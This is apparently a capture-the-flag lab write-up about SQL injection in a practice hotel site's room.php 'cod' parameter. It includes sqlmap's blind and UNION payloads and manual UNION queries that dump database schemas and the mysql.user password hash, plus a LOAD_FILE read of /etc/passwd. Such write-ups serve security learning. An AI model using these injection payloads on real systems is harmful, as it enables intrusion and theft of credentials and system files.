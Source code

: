 ![[Pasted image 20230503230940.png]]

Email address: `supersecurehotel@logger.htb`

## Rooms
![[Pasted image 20230503231045.png]]
Inputing an invalid object id to `/room.php` returns a blank template. The booking link does nothing on all objects, whether valid or not:
![[Pasted image 20230503231215.png]]

## Strange response header
![[Pasted image 20230503232557.png]]

I could potentially be blocked at any point. Not really important tho.

![[Pasted image 20230503233506.png]]
![[Pasted image 20230503233547.png]]
`phpmyadmin v4.8` appears to be available.
![[Pasted image 20230503233914.png]]

However, there seems to be no unauthenticated vulnerabilities here. This does proabably confirm that the site is using MySQL however. I can check back at the direct object referencing to see if it's SQL injectable.

![[Pasted image 20230503234450.png]]
Indeed, this indicates that it's using SQL to find rooms.

## sqlmap
```
---  
Parameter: cod (GET)  
   Type: boolean-based blind  
   Title: AND boolean-based blind - WHERE or HAVING clause  
   Payload: cod=1 AND 6035=6035  
  
   Type: time-based blind  
   Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)  
   Payload: cod=1 AND (SELECT 8105 FROM (SELECT(SLEEP(5)))ojvv)  
  
   Type: UNION query  
   Title: Generic UNION query (NULL) - 7 columns  
   Payload: cod=-8109 UNION ALL SELECT NULL,NULL,NULL,CONCAT(0x716b6a6271,0x516a4b4d6849575159697967544f6d4b4154586e66694c4a77535650424a5343456861496f637273,0x7162717871),NULL,NULL,NULL-- -  
---
```

The report says there are 7 columns. I can start testing this manually for which field is displays in which column.

![[Pasted image 20230504000323.png]]
It appears to be column 5 that leaks information, however, the report says that #4 can also be used.

![[Pasted image 20230504000608.png]]
Indeed it can be... as well as 2 and 3.

![[Pasted image 20230504013115.png]]
```
user():DBadmin@localhost
database():hotel

select 1,group_concat(schema_name),3,4,5,6,7 from information_schema.schemata:
hotel,information_schema,mysql,performance_schema

select 1,group_concat(table_name),3,4,5,6,7 from information_schema.tables where table_schema='hotel':
room

select 1,group_concat(column_name),3,4,5,6,7 from information_schema.columns where table_name='room':
cod,name,price,descrip,star,image,mini

column_stats,
columns_priv,
db,event,
func,
...
user

group_concat(column_name) from information_schema.columns where table_name='user':

Host,
User,
Password,
Select_priv,
Insert_priv,
Update_priv,
Delete_priv,
Create_priv,
Drop_priv,
...

select 1,User,3,4,Password,6,7 from mysql.user:
DBadmin
*2D2B7A5E4E637B8FBA1D17F40318F277D29964D0

LOAD_FILE("/etc/passwd"):
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-timesync:x:100:102:systemd Time Synchronization,,,:/run/systemd:/bin/false
systemd-network:x:101:103:systemd Network Management,,,:/run/systemd/netif:/bin/false
systemd-resolve:x:102:104:systemd Resolver,,,:/run/systemd/resolve:/bin/false
systemd-bus-proxy:x:103:105:systemd Bus Proxy,,,:/run/systemd:/bin/false
_apt:x:104:65534::/nonexistent:/bin/false
messagebus:x:105:110::/var/run/dbus:/bin/false
pepper:x:1000:1000:,,,:/home/pepper:/bin/bash
mysql:x:106:112:MySQL Server,,,:/nonexistent:/bin/false
sshd:x:107:65534::/run/sshd:/usr/sbin/nologin

```

With a password, we can proceed to phpMyAdmin




